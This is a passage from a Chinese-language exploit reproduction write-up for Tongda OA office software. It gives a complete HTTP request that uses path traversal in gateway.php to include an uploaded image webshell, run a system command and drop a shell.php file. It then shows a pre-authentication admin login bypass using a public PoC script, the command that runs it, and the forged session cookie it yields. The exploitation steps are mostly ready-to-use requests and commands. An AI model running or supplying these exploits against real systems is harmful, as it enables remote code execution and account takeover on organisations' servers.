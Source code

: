 获得文件路径

```
+OK [vm]259@2104_456656689|jpg|0[/vm]
```

包含这个图片马，生成一个木马文件，会在文件包含的根目录下生成一个 shell.php文件

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.16.112:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

json={"url":"/general/../../attach/im/2104/456656689.jpg"}&cmd=ipconfig
```







## 通达OA前台任意用户登录

### 影响版本

通达OA <11.5.200417版本，通达OA 2017版本



### 漏洞复现

访问下面的网址，提示需要登录

```
http://192.168.16.112:8080/general/index.php?isIE=0&modify_pwd=0
```

使用poc生成PHPSESSID ，再次访问该网址并抓包，替换cookie中的PHPSESSID为用poc生成的。放包，成功以系统管理员身份登录。

poc脚本获取地址：https://github.com/NS-Sp4ce/TongDaOA-Fake-User

```
python3 tongda_admin.py -v 11 -url http://192.168.16.112:8080/
```

获得 `COOKIE:PHPSESSID=4s7t89n55e20uh8dl5i4ak0vn5`

登录成功

![image-20210409142510681](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409142510681.png)
